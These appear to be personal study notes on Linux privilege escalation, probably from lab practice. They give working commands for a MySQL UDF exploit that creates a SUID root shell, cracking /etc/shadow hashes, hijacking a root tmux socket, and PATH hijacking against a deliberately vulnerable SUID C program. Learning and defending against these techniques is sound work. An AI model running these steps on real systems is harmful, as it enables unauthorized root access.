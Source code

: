 # Linux Privilege Escalation

Tags :

## Contents
[Mysql Service as root](#MySQL-Service-as-root)

[Hash Cracking](#Hash-Cracking)

## MySQL Service as root

if mysql service is running as root and we have root credentials then we can execute commands via **User-DefinedFunctions**

this exploit works for mysql 4.x/5.0
Download [here](https://www.exploit-db.com/download/1518)
save it as raptor_udf2.c 

Now Compile into object and sharedobjects
```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

then connect to mysql 
in that we create a new table and load this sharedobject into that table
we then copy contents into original raptor_udf2.so file

```bash
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

then we can execute commands as arguments to our function
```bash
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

now we have copied bash into tmp and added s bit on
so we can run that as root by default
```
/tmp/rootbash -p
```


## Hash Cracking

when user set weak password , it can be cracked with johntheripper
password hashes are found in **/etc/shadow** file 
this file contents are generally cannot be readable by any user
if incase normal user can read this file then we can try to bruteforce hashes
copy hash into a file
```
./john --format=sha512crypt -w=rockyou.txt hashfile
```
if the password is in rockyou.txt you will get password


## Tmux Socket Sessions

tmux can be left open by root user or any other user
using ps command we can verify on which socket tmux is running

```
ps -aux | grep tmux
tmux -S /tmp/socket
```
you will get a tmux session


## VNC Sessions

## PATH Variable Manipulation

we have binary and it executes another binary but it doesnot uses absolutepath it only uses relative path
in that case we can write fake binary in that directory
if the directory is not writable we can create fake binary in /tmp and can change PATH variable

here we have binary and its source code
if we dont have source code , we can apply strings on that binary
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");
    char user[80];
    fgets(user, 80, f);
    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());
    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
	setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}

```

we can see popen function and whoami binary is not full path 
popen function executes the binary specified and takes that binary's output into filestream
and script checks if we are tom user then it drops root shell
let's create a binary in /tmp named whoami

```bash
touch /tmp/whoami
echo "echo tom" > /tmp/whoami
chmod +x /tmp/whoami
```

now we need to change PATH variable because by default rootshell binary takes from /bin

```bash
export PATH=/tmp:$PATH
```

now run the rootshell binary and we get root shell